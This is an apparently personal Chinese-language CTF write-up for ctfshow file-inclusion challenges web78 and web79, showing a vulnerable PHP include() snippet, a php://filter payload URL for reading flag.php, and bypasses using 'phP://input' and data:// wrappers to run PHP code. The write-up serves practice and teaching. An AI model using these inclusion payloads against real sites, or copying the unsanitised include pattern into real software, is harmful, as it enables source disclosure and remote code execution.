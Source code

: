 ```yaml
---
title: "ctfshow Web入门[文件包含] Writeup"
date: 2022-08-04T11:32:16+08:00
draft: false
author: "X1r0z"

tags: ['ctf','php']
categories: ['Writeup']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


文件包含

主要考察各种伪协议, 尤其是 php://filter



## web78

php 伪协议

`http://86039d93-a3f5-4dad-9f2e-1ae926e13f29.challenge.ctf.show/?file=php://filter/read=convert.base64-encode/resource=flag.php`

## web79

```php
if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```

将 php 替换为 ???, 不过这个默认是不忽略大小写的

使用 `phP://input` 绕过

![20220804115833](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220804115833.png)

另外可以使用 data 伪协议 + base64 绕过

`data://` 和 `php://input` 都可以用来执行 PHP 代码
